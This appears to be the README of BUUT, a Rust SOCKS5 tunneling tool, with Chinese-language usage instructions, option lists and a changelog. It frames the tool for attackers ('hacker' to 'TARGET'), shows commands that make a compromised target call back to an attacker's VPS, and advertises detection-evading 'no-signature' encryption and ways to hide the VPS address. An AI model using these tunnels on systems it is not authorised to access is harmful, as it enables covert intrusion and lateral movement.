 # BUUT 

https://github.com/YDHCUI/buut

## 介绍 
一款使用rust开发的高性能正反向隧道代理工具，基于yamux多路复用技术。


## 工作原理
```rust
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
|hacker| <--> | Socks5 VPS  | <--> |Yamux frame| <--> |Noise stream | <--> |TCP stream| <--> |TARGET|
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("l", "server_listen",   "", "监听地址");
    opts.optopt("s", "remote_addr",     "", "远程地址");
    opts.optopt("f", "forward_addr",    "", "转发地址,暂未实现");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP,支持<TCP|KCP|WS>");
    opts.optopt("n", "channel",         "", "通道数量,默认1");
    opts.optopt("c", "config",          "", "配置文件,默认路径./conf.toml");
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "server",      "", "是否服务模式,同时监听tcp和kcp");
    opts.optflagopt("X", "reuse",       "", "是否端口复用");
    opts.optopt("",  "sockspass",       "", "代理密码,默认不验证,用户名buut"); 
    opts.optopt("",  "headers",         "", "连接所需的一些参数");
    //opts.optopt("",  "log",             "", "日志等级,默认不开"); 
```

## 特点：

速度快，使用多路复用技术 将带宽利用到极致。rust开发，速度、稳定性和安全性都有保证。

体积小，编译打包后只有不到几百k, 相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前release 0.4已支持tcp、kcp、websocket，后续把icmp、dns协议支持加进去。



## 使用方法 

### 反向隧道

默认使用tcp连接反向隧道
```bash
    vps执行：          ./buut -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 


    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Client Handshake From 127.0.0.1:29505
    Agent ID [rmSyYaLX] Proxy Listen [0.0.0.0:10086]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```

使用-S 参数启用服务模式，会同时监听tcp和kcp端口
```bash
    vps执行：          ./buut -S -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 
```


### 正向隧道

使用-F 参数连接tcp正向隧道
```bash
    target执行：       ./buut -F -l 443 
    vps执行：          ./buut -F -s target:443 
    hacker连接socks5   vps:10086 

    target:
    [root@localhost]# ./buut -F -l 443
    Forward Agent ID [3Yj2LLAg] Listen On [tcp://0.0.0.0:443]

    vps:
    [root@localhost]# ./buut -F -s 127.0.0.1:443
    Forward Server [tcp://127.0.0.1:443] Connect Suss
    Agent ID [3Yj2LLAg] Proxy Listen [0.0.0.0:10086]
```

使用websocket连接
```bash
    target执行：       ./buut -F -m ws -l 443 
    vps执行：          ./buut -F -m ws -s https://target:443 --headers Cookie:Session=xxxxxx;
    hacker连接socks5   vps:10086 
```

### 自建代理

```bash
    vps执行：          ./buut -F -S -l 10086
    user连接socks5     vps:10086 

    vps:
    [root@localhost]# ./buut -S -F -l 10086
    Socks5 Server ID [FPamyVyY] Listen On [tcp://0.0.0.0:10086]

```


### Tips

1、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut 

2、使用websocket协议时,连接地址应设为http://xxx格式 如: ./buut -m ws -s http://target:8081/xx

3、sockspass是对client端生效，所以设置时应该在client设置，如 ./buut -s 127.0.0.1:443 --sockspass 123456


## 更新 

### 0.5.0

1、之前NN模式有安全问题，现在更改noiseparams 为 Noise_KK_25519_ChaChaPoly_BLAKE2s 所以可能和以前版本会有不兼容


### 0.4.4

1、加入自建sock5代理功能

使用如: ./buut -F -S -l 1234 会在本地启一个socks5 端口为 1234 


### 0.4.3

1、websocket支持tls。

2、正向websocket连接加入自定义header选项参数 

使用如: ./buut -F -m ws -s https://192.168.1.110/svr/wschat --headers Cookie:SessionId=xxxxxxxxxxxxx;


### 0.4.2

1、简单实现端口复用

2、去除默认参数，优化使用

3、修复握手包超时的的bug。

通过调用 SO_REUSEADDR 实现端口复用 使用如: ./buut -F -X -l 192.168.1.110:443  


### 0.4.1

1、修改使KCP协议也使用noise加密。

2、修复正向代理不能使用kcp协议的问题。


### 0.4

1、加入websocket, kcp 协议支持。

2、修复client端不会自动重连的bug。

3、优化参数配置。


### 0.3.1 

1、加入windows支持。

2、修改默认参数。

3、优化体积。


## todo

1、实现icmp、dns协议支持  

2、链式代理支持

3、端口映射模式

4、加入tun模式 

5、将非buut流量转发到外部端口（急）


